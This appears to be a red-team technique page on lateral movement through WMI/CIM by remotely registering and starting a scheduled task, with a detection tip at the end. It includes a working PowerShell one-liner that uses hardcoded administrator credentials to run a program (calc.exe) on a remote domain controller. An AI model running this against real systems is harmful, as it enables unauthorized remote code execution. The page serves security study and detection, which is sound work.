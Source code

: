 # WMI via NewScheduledTask

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2018-10-19-22-24.gif)

## Observations

As usual, services.exe spawning interesting binaries should raise suspicion. As a defender, you may want to also consider monitoring unusual scheduled tasks that get created.

![](../.gitbook/assets/screenshot-from-2018-10-19-22-35-13.png)

